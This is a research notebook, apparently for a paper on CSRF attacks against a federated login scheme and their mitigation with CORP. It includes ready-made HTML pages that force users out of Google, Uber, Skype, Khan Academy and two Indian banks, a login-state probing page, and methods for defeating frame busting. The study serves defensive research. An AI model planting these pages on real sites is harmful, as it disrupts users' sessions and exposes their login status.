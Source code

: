 * Paper Outline
** Working Title: Modeling and Mitigation of CSRF Attacks on FIM
- Summary of Abstract
** TODO Abstract
1/2 page
- Summary of Intro
*** Working Abstract:
Our abstract for now(verify) is something like this: we are showing that FIM is
not an all-encompassing security measure. CSRF attacks can still be carried out
on the application as that isnt even part of the model(here demo of regular
csrf attacks on intentionally vulnerable website). In addition FIM is weak to
another csrf attack: logout. Both these problems can be mitigted(hopefully)
using corp
** Introduction
2-3 pages
- Summary of paper
- Motivation
- Related Work
- 
** Motivation(Pitch)
- Why is it important
** Related Work
** Method and Technique
- What is FIM
** Modeling
- How we modeled it alloy
** Experimentation
- Implementation of experiments
** Conclusion
** Future Outlook





* Experiment
** Generic
*** Vulnerabilities Check
**** CSRF
**** Click jacking
**** cross site timing attack
- Mitigate atacks using corp extension. 
how: 
- fix one website, then based on e
*** Mitigation tests
- using corp extension

  
* Mitigation
Check with corp extension in chrome

* Robin Linus
- all the websits which use FIM, are vulnerable to click jacking which they are
  on the robin linus site.



* Cross-Site Timing Attack
- Use with Khanacademy: if logged in logo will show up else not;.
#+BEGIN_SRC html :tangle khanacademychecklogin.html
<html>
  <head><title>Khanacademy Check Login Attack</title></head>
  <body>
    <img src="https://www.khanacademy.org/login?continue=%2Ffavicon.ico"/>
  </body>
  
</html>
#+END_SRC
* Attack Khanacademy Logout:
#+BEGIN_SRC html :tangle khanacademylogout.html
<html>
<head><title>Khanacademy Logout Attack</title></head>
<body>
<img src="https://khanacademy.org/logout?contine=/"/>
</body>
</html>
#+END_SRC
* Attack Google Logout
#+BEGIN_SRC html :tangle googlelogout.html
<html>
<head><title>Google Logout Attack</title></head>
<body>
<img src="https://accounts.google.com/logout"/>
</body>
</html>
#+END_SRC
* Uber logout
#+BEGIN_SRC html :tangle  uberlogout.html
<html>
<head><title>Uber Logout</title></head>
<body>
<img src="https://riders.uber.com/logout"/>
</body>
</html>
#+END_SRC
* Skype logout
#+BEGIN_SRC html :tangle skypelogout.html
<html>
<head><title>Skype Logout</title></head>
<body>
<img src="https://secure.skype.com/portal/logout"/>
</body>
</html>
#+END_SRC
<<<<<<< HEAD
* Super logout
#+BEGIN_EXAMPLE
https://superlogout.com
#+END_EXAMPLE
* SBI logout
#+BEGIN_SRC html :tangle sbilogout.html
<html>
<head><title>SBI Logout</title></head>
<body>
<img src="https://retail.onlinesbi.com/retail/logout.htm"/>
</body>
</html>
#+END_SRC
* IOB logout
#+BEGIN_SRC html :tangle ioblogout.html
<html>
<head><title>IOB Logout</title></head>
<body>
<img src="https://www.iobnet.co.in/ibanking/logout.do">
</body>
</html>
#+END_SRC


* Read on clickjacking
** Busting Frame Busting:a Study of Clickjacking Vulnerabilities on Popular Sites
This paper was published in 2010 . It shows many vulnerability in sites at those times 
and how clickjacking cannot be stopped just by frame busting and new policies must be 
added into our web.

*** Frame bursting example
 i f ( top . location   !=   self.location ){
top .location = self.location ;
}


*** Methods against frame bursting
  1.Use the window.onbeforeunload function to not unload a frame
    1.1 this can be done by asking the user "to not leave page"(alert box) 
    1.2 Flushing the request to unload by stopping the unload request by continuously calling this window.onbeforeunload\
  2.Disable js (both inline and external )
    2.1 inline by by using XSS filters to not allow these scripts
    2.2 External by simplying disable js

  
  3.By passing the Regular expressions in frame busting js 
    By just placing the domian of the victim in the url

  4.Changing the value of location as  it can be redefined

  5.Security="restricted"

** Faults in XFO
   1.Per page specification
   2.One-type domain allowed per page 
   3. *Proxies can remove headers*


** XFO Headers 
   meta tags to make website more secrue by only allowing only some iframes(Cross origin request) 
   using the value specified in the header
*** Value of the header
    1.DENY
    2.SAMEORIGIN
    3.ALLOWED-FROM

 

** X-Content-type
   headers which specify what kind of file is being loaded by a particular request
   eg. text/plain,text/html,images/jpeg

